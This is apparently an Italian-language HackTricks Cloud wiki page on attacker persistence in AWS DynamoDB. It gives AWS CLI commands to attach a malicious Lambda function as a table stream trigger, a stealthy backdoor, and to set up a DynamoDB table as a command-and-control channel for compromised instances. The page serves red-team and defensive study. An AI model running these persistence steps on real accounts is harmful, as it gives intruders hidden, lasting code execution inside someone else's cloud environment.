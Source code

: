 # AWS - Persistenza DynamoDB

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

### DynamoDB

Per ulteriori informazioni accedi a:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Trigger DynamoDB con Backdoor Lambda

Utilizzando i trigger di DynamoDB, un attaccante può creare una **backdoor furtiva** associando una funzione Lambda malevola a una tabella. La funzione Lambda può essere attivata quando un elemento viene aggiunto, modificato o eliminato, consentendo all'attaccante di eseguire codice arbitrario all'interno dell'account AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Per mantenere la persistenza, l'attaccante può creare o modificare elementi nella tabella DynamoDB, il che attiverà la funzione Lambda malevola. Questo consente all'attaccante di eseguire codice all'interno dell'account AWS senza interazione diretta con la funzione Lambda.

### DynamoDB come canale C2

Un attaccante può utilizzare una tabella DynamoDB come un **canale di comando e controllo (C2)** creando elementi contenenti comandi e utilizzando istanze compromesse o funzioni Lambda per recuperare ed eseguire questi comandi.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Le istanze compromesse o le funzioni Lambda possono controllare periodicamente la tabella C2 per nuovi comandi, eseguirli e, facoltativamente, riportare i risultati nella tabella. Questo consente all'attaccante di mantenere la persistenza e il controllo sulle risorse compromesse.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
